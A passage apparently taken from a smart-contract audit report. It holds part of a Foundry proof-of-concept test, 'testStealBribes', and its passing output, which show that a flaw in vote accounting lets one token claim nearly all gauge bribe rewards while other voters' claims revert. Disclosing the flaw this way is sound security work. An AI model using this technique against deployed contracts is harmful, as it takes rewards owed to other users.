```solidity
        // If no other users vote here, admin will just get the full bribe rewards.
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(dead, TOKEN_1, MAXTIME, false);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0); 

        hevm.prank(dead);
        voter.vote(tokenId3, pools, weights, 0); 

        // Go to next epoch
        hevm.warp(newEpoch());

        // All 3 users can claim rewards.
        // However, rewards are not distributed equaly as it would be the case if all of them voted. 
        // totalVoted only accounts for two voters, so rewards will only be split in two.
        // If X is the amount of reward :
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId1)); // Can get aproximately X because admin has double the veALCX voting power in this case
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId2)); // Can get X / 2
        console2.log(sushiGaugeBribe.earned(sushiGaugeBribeToken, tokenId3)); // Can get X / 2

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // This will fail as there are not enough rewards left in this case
        hevm.prank(beef);
        vm.expectRevert();
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(dead);
        vm.expectRevert();
        voter.claimBribes(bribes, tokens, tokenId3);
    }
```

## Results
```console
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] testStealBribes() (gas: 6893490)
Logs:
  994217758672975468
  500000000000000000
  500000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 88.42s (70.90s CPU time)

Ran 1 test suite in 90.33s (88.42s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```